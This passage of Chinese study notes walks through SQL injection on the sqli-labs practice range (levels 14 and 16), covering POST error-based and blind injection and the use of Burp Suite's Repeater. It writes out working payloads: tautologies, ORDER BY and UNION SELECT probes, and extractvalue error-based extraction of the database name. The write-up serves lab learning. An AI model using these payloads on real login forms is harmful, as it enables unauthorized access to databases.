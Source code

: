 select username,password from table1 where username=' admin' and 1=1 #

select username,password from table1 where username=' ' order by 2 #  ' and password='$p' limit 0,1;

select username,password from table1 where username=' ' union select 1,2 #  ' and password='$p' limit 0,1;

' and extractvalue(1,concat(0x7e,(select database()),0x7e)) #
```



### 第二种方式：

使用神器burpsuite

![image-20220114214701052](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114214701052.png)

抓包后：

![image-20220114214718244](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114214718244.png)

然后放行，到Repeater：

![image-20220114214852642](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114214852642.png)






## 06 post-报错、盲注、修改重置密码

### post报错

**靶场less-14**

```
" and extractvalue(1,concat(0x7e,(select database()),0x7e)) #

" and extractvalue(1,concat(0x7e,(select database()),0x7e)) and "1"="1
```



### post盲注

**靶场less-16**



判断闭合方式

```
") or 1=1 #
```

用户名和密码都写：

```
") or ("1")=("1
```

```